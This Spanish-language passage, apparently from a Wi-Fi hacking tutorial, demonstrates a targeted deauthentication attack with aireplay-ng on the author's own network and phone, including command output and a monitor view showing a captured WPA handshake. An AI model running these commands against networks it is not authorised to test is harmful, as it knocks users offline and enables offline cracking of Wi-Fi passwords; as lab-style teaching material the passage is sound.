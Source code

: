 Al final se ven los distintos ataques, nosotros vamos a usar él **-0**.

Además, le indicaremos la cantidad de paquetes a mandar de desautenticación (se recomienda entre 10 y 15 paquetes), el **essid** del **AP**, la **MAC** de mi dispositivo (en tu caso pues el tuyo) e indicamos nuestra **tarjeta de red**:
```bash
aireplay-ng -0 10 -e Wifi_Salon -c MAC:DE:MI:CEL:XD  wlan0
```

Antes de iniciar el ataque, observa la conexión de tu dispositivo, pues debería de desconectarse una vez iniciado el ataque.

Inicia el ataque:
```bash
aireplay-ng -0 10 -e Wifi_Salon -c MAC:DE:MI:CEL:XD  wlan0
14:18:46  Waiting for beacon frame (ESSID: Wifi_Salon) on channel 11
Found BSSID "MAC:Wi:Fi:Sa:lon:XD" to given ESSID "Wifi_Salon".
14:18:47  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [36|59 ACKs]
14:18:48  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [31|60 ACKs]
14:18:48  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [76|80 ACKs]
14:18:49  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [72|70 ACKs]
14:18:49  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [21|47 ACKs]
14:18:50  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [57|73 ACKs]
14:18:51  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [ 0|43 ACKs]
14:18:51  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [ 0|49 ACKs]
14:18:52  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [ 0|39 ACKs]
14:18:53  Sending 64 directed DeAuth (code 7). STMAC: [MAC:DE:MI:CEL:XD] [ 0|48 ACKs]
```

Si observaste tu dispositivo, se debío desconectar y si observas el monitoreo, ya debería de haber obtenido un **Handshake**:
```bash
CH 11 ][ Elapsed: 7 mins ][ 2023-05-11 14:19 ][ WPA handshake: **:**:**:**:**:**                                                       
                                                                                                                                       
 BSSID               PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                   
                                                                                                                                       
 MAC:Wi:Fi:Sa:lon:XD   -54 100     3387      550    2  11  130   WPA2 CCMP   PSK  Wifi_Salon                                          
                                                                                                                                       
 BSSID               STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                     
                                                                                                                                       
 (not associated)    **:**:**:**:**:**  -32    0 - 1      0        2         Wifi_Vecino                                               >
 (not associated)    **:**:**:**:**:**  -32    0 - 1      0        2         Wifi_Vecino2                                              >
 MAC:Wi:Fi:Sa:lon:XD MAC:DE:MI:CEL:XD   -88    0 - 1      0       98
```

¡Muy bien! Hemos realizado exitosamente el **ataque de desautenticación dirigido** y obtuvimos un **Handshake**. Vamos a hacer otro ataque.


